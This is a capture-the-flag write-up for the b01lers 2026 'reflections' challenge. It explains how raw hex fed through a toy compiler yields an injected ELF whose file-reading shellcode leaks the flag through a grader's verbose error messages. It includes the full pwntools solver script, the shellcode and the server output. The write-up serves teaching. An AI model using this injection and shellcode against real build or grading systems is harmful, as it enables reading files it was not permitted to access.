

# [reflections]

* **CTF Name:** b01lers ctf 2026
* **Category:** Misc
* **Hint:** The man in the mirror nods his head
* **Challenge Author:** TNT
* **Writeup Author:** Nakata Christian (n4ct)
* **Date:** April 18, 2026

---

## Challenge Description



## 1. Executive Summary

**Objective:**
To bypass the jail environment and retrieve the flag without writing the intended self-replicating compiler backdoor in the provided esoteric `.he` language.

**Result:**
Exploited a logic flaw in `server.py` and the `calc1` compiler to inject a raw 32-bit ELF shellcode. The script forces the server to unintentionally leak the flag via an error message. The extracted flag is `bctf{Wh0_w1ll_I_trus7_N0w}`.

**Method:**
The `calc1` compiler directly translates raw hex strings into executable bytes. By passing the hex dump of a custom ELF binary that reads and prints `/app/flag.txt`, the compiled binary ignores the server's math test and prints the flag to `stdout` instead. The grading script catches this as a "failed" math test and leaks our output to the terminal.

---

## 2. Evidence Identification

This section provides details regarding the initial evidence file.

- **Filename:** `calc1.he`
- **Size:** `5.2 KB`
- **SHA-256:** `b400b2272c902e47525a66e215a29ae9248fe38208c0c740a3660ad85ab6f1cc`

- **Filename:** `server.py`
- **Size:** `7.5 KB`
- **SHA-256:** `9a9539c3e751f01e49712dfa9092e9e73fc81fa4d9abda046304d408fb198ed3`

**Initial Check:**
Verifying file type using signature headers (Magic Bytes).

```bash
$ file calc1.he                               
calc1.he: ASCII text

$ file server.py           
server.py: Python script, ASCII text executable

```

---

## 3. Investigation Steps

### Step 1: Finding the Bypass

The challenge wants us to write a compiler backdoor (Ken Thompson's "Reflections on Trusting Trust"). However, reviewing `server.py` and `calc1.he` reveals a much simpler error-based leak vector.
1. **Direct Hex Injection**: `calc1.he` doesn't strictly enforce `.he` syntax. If you feed it raw hex bytes (e.g., an ELF header `7f 45 4c 46`), it dumps them directly into the output binary without modifying them.

2. **Talkative Error Handling**: In `server.py`, the grading mechanism compares our binary's math output against the expected output. If they don't match, it crashes and prints what we actually outputted:

**Vulnerable Code Snippet:**
```python
if actual != expected:
    print(f"Test {test_index} failed... Got: {format_bytes(actual)}")
```

### Step 2: The Exploit Strategy

Instead of doing math, we just need to read `/app/flag.txt` and write it to `stdout`. When the grader tests our binary, it will see the flag instead of a math result, fail the test, and print the flag back to us.

**Solver Script**
```python
from pwn import *

context(arch='i386', os='linux')

sc = asm('''
    push 0x00747874
    push 0x2e67616c
    push 0x662f7070
    push 0x612f2f2f
    mov ebx, esp
    xor ecx, ecx
    mov al, 5
    int 0x80

    mov ebx, eax
    mov ecx, esp
    mov dl, 100
    mov al, 3
    int 0x80

    mov edx, eax
    mov bl, 1
    mov al, 4
    int 0x80
    
    xor ebx, ebx
    mov al, 1
    int 0x80
''')

elf = make_elf(sc)
payload = ' '.join(f"{b:02x}" for b in elf).encode() + b'\n&&\n'

r = remote('reflections.opus4-7.b01le.rs', 8443, ssl=True)
r.send(payload)
r.interactive()
```

### Step 3: Extracting the Flag

Running the script injects our ELF. The server runs it, fails the math test, and spits out the hex representation of the flag.

**Execution:**
```bash
$ python3 b.py                                                           
[+] Opening connection to reflections.opus4-7.b01le.rs on port 8443: Done
[*] Switching to interactive mode
Test 1 (direct hex bytes) failed. Expected: 7f454c46, Got: 626374667b5768305f77316c6c5f495f74727573375f4e30777d
Failure: Tests did not pass.
```

Decode the leaked hex string from the `Got:` section:
```bash
$ echo "626374667b5768305f77316c6c5f495f74727573375f4e30777d" | xxd -r -p
bctf{Wh0_w1ll_I_trus7_N0w}
```

---

## 4. Conclusion

This challenge demonstrates the danger of improper input validation and verbose error handling in automated grading environments. By allowing raw hex to bypass the compilation logic and subsequently logging `stdout` from an untrusted binary during a failed test, the jail environment effectively handed over the flag without requiring the intended esoteric exploit.